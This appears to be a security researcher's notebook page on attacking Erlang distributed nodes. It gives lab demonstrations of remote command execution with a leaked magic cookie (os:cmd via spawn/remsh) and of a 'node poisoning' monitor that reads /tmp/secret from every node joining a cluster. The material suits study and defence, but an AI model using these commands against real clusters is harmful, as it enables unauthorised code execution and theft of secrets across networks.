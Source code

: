 # Erlang

## Authentication Cookie

Authentication between Erlang nodes is rather unique to anything I've seen elsewhere, and it all happens through the magic of cookies.  The [documentation ](http://erlang.org/doc/reference_manual/distributed.html)sums this up well:

> Authentication determines which nodes are allowed to communicate with each other. In a network of different Erlang nodes, it is built into the system at the lowest possible level. Each node has its own **magic cookie**, which is an Erlang atom.
>
> When a node tries to connect to another node, the magic cookies are compared. If they do not match, the connected node rejects the connection.

If the authentication cookie is leaked then theoretically we can abuse the nature of Erlang's inter-connectivity to achieve command execution on a node we shouldn't necessarily be able to.  Due to the distributed nature of Erlang also, this represents a fundamental risk.

Of course this only assumes you can leak the cookie.  There are a number of methods, such as in the event of a lower privileged user seeing the `-setcookie` flag in a process list, a weak cookie or a simple brute-force.  The topic of brute-forcing is discussed by Daniel Mende in [Erlang distribution RCE and a cookie bruteforcer](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/), as well as by Michael Santos in [Spoofing the Erlang Distribution Protocol](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html).

If we have access to the cookie and can connect to a node's epmd port \(usually tcp/4369\), we can spawn our own node and achieve command execution in the following manner:

```
otheruser@pc:/$ erl -sname booj -setcookie cookieval -remsh node@localhost
<me booj -setcookie cookieval -remsh node@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(node@localhost).
net_adm:ping(node@localhost).
pong
(booj@booj)2> spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

**References**

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://legacy.gitbook.com/book/reboare/booj-security/edit#)  
[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](https://legacy.gitbook.com/book/reboare/booj-security/edit#)

**Further Reading**

[Who wants cookies?](https://blog.voltone.net/post/4)  
[Unauthorized Erlang](https://blog.voltone.net/post/12)

## Node Poisoning

Connecting to an Erlang cluster can potentially be dangerous.  We've mentioned the dangers of arbitrary command execution on adjacent nodes, but this also extends to your workstation upon connecting to a cluster.  In Alex Weber's [Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous), we are given a method to compromise an active workstation connecting to a cluster.

If, for example, we were to take control of a single node within a cluster, not only do we have arbitrary command execution over it, but we would also be able to infect any new nodes which join the cluster automatically.

I've tested this out using three docker containers.

**bar@bar**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name bar -h bar --net example erlang:19.3 /bin/bash
root@bar:/# echo thisisbar > /tmp/secret
root@bar:/# erl -sname bar -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(bar@bar)1> net_adm:ping(foo@foo).
pong
(bar@bar)2> spawn(fun Grab_keys() ->
(bar@bar)2>   net_kernel:monitor_nodes(true),
(bar@bar)2>   receive
(bar@bar)2>     {nodeup, Node} ->
(bar@bar)2>       Keys = rpc:call(Node, os, cmd, ["cat /tmp/secret"]),
(bar@bar)2>       file:write_file(string:concat("/tmp/", Node), Keys)
(bar@bar)2>   end,
(bar@bar)2>   Grab_keys()
(bar@bar)2> end).
<0.71.0>
```

So we've set up our first node and attached our malicious monitor.

**foo@foo**

```
root@ubuntu:/home/booj# docker run --rm -it --name foo -h foo --net example erlang:19.3 /bin/bash
root@foo:/# echo thisisfoo > /tmp/secret
root@foo:/# erl -sname foo -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(foo@foo)1> net_adm:ping(bar@bar)
(foo@foo)1> .
pong
```

Now we've connected to our adjacent node and if we attach a terminal to our `bar` docker container, we'll see our dumped secret within tmp.

```
root@bar:/tmp# ls -la
total 20
drwxrwxrwt 1 root root 4096 Apr 16 20:18 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root   10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root   10 Apr 16 20:15 secret
root@bar:/tmp# cat foo@foo
thisisfoo
```

Now, any nodes that connect, due to the way Erlang works, will have their secret instantly dumped:

**baz@baz**

```
root@ubuntu:/home/booj# docker run --rm -it --name baz -h baz --net example erlang:19.3 /bin/bash
root@baz:/# erl -sname baz -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(baz@baz)1> net_adm:ping(foo@foo).
pong
```

```
root@bar:/tmp# ls -la
total 24
drwxrwxrwt 1 root root 4096 Apr 16 20:23 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root   10 Apr 16 20:23 baz@baz
-rw-r--r-- 1 root root   10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root   10 Apr 16 20:15 secret
```

Whilst this may not be a particularly surprising result for Erlang developers, it does represent a quite frightening realization that a single node being compromised will indeed compromise the entire network.

**References**

[Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)  
[https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker](https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker)

## Cookie Bruteforcing

**Further Reading**

[https://github.com/msantos/spoofed](https://github.com/msantos/spoofed)

[https://www.youtube.com/watch?v=42k70Y-yTYY](https://www.youtube.com/watch?v=42k70Y-yTYY)

[https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf](https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf)

